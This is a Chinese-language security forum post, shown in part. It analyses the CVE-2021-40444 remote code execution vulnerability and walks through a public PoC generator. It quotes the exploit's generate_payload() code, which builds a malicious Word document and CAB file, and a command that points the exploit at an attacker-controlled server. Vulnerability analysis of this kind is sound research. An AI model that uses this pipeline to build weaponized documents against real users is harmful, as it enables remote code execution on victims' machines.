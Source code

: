 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-270000.htm)

> [原创] 详细分析 CVE-2021-40444 远程命令执行漏洞

1. 前言
=====

按照顺序，本来计划要看的应该是《漏洞战争》中的 Adobe Reader UAF 漏洞，最近一直在看的 Adobe 产品的漏洞…… 所以决定转换一下思路，挑了最近新出现的 CVE-2021-40444 漏洞。刚好 [404 之前有一篇博客写过这个漏洞](https://paper.seebug.org/1718)，我在它的参考资料里面找到了 github 上面提供的 [poc 生成代码](https://github.com/lockedbyte/CVE-2021-40444/tree/713dffcc974e8fc8bf2edd1d1dd5f5fe208e1a7f)，以及 j00sean 在 twitter 上面发的 6 行代码，以这两者为基础对该漏洞进行分析。

2. poc 静态分析
===========

先看 github 上面的项目，根据 Readme 中的信息，用于生成 Poc 的主体代码文件是 exploit.py，生成命令为：

 

`python3 [exploit.py](http://exploit.py/) generate test/calc.dll http://<SRV IP>`

 

那么我们先来看一下 exploit.py 这个文件。

2.1 poc 生成代码
------------

观察 exploit.py，用于生成 poc 的主体函数是`generate_payload()`，主要功能代码如下（删除了一些不影响理解的代码）：

```
def generate_payload():
    # 1. 将payload内容写入word.dll
    payload_content = open(payload_path,'rb').read()
    filep = open('data/word.dll','wb')
    filep.write(payload_content)
 
  # 2. 将服务器地址写入要生成的doc文档中
    execute_cmd('cp -r data/word_dat/ data/tmp_doc/')
    rels_pr = open('data/tmp_doc/word/_rels/document.xml.rels', 'r')
    xml_content = rels_pr.read()
    xml_content = xml_content.replace('', srv_url + '/word.html')
    rels_pw = open('data/tmp_doc/word/_rels/document.xml.rels', 'w')
    rels_pw.write(xml_content)
 
    # 3. 生成doc文档
    os.system('zip -r document.docx *')
    execute_cmd('cp document.docx ../../out/document.docx')
 
    # 4. 生成cab文件
    execute_cmd('cp word.dll msword.inf')
    execute_cmd('lcab \'../msword.inf\' out.cab')
    patch_cab('out.cab')
    execute_cmd('cp out.cab ../../srv/word.cab')
 
    # 5. 替换HTML文件中的cab文件路径
    execute_cmd('cp backup.html word.html')
    p_exp = open('word.html', 'r')
    exploit_content = p_exp.read()
    exploit_content = exploit_content.replace('', srv_url + '/word.cab')
    p_exp = open('word.html', 'w')
    p_exp.write(exploit_content)
 
    return 
```
